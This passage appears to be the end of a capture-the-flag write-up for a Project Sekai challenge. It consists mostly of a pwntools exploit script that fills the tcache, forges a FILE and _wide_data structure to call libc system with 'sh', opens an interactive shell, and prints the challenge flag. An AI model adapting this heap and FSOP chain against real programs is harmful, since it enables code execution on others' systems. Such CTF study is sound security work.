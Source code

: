 ```python
    heap_base + 0x16420, 0x2,
    0x6161, 0x0, # project name is aa
    # stdin->chain - 0x8 (because when appending it will be 0x8 ahead)
    0x0, libc_base + 0x203948, 
    libc_base + 0x203948, libc_base + 0x203950,

    # fake vector data - points to fake project
    heap_base + 0x16410,
)
payload += b"a"*(0x410 - len(payload))
p.sendline(payload)

move_worker(b"john23", b"aa")

# fill up tcache
for i in range(7):
    fire_worker(b"john" + str(i).encode())

# free chunks and make the fake file
for i in range(22, 30):
    fire_worker(b"john" + str(i).encode())

p.sendline(b"a"*0x410)

# forge fake file
payload = flat({
    # file
    0x40 + 0x00: b"  sh",
    0x40 + 0x20: 0,
    0x40 + 0x28: 1,
    0x40 + 0x88: libc_base + 0x205710,
    0x40 + 0xa0: heap_base + 0x14d30,
    0x40 + 0xd8: libc_base + 0x202228
}, filler=b"\x00")
payload += b"\x00"*(0x1f0 - len(payload))
p.sendline(payload)

# forge _wide_data
payload = flat({
    0x18: 0x0,
    0x30: 0x0,
    0xd8: libc.sym.system + libc_base,
    0xe0: heap_base + 0x14e08 - 0x68
}, filler=b"\x00")
payload += b"\x00"*(0xe0 - len(payload))
p.sendline(payload)

p.sendline(b"exit")

p.interactive()
# SEKAI{make_sure_to_pay_attention_to_your_truth_tables!_44bc24}
```

---

Really fun challenges by Project Sekai! And thanks for reading :)
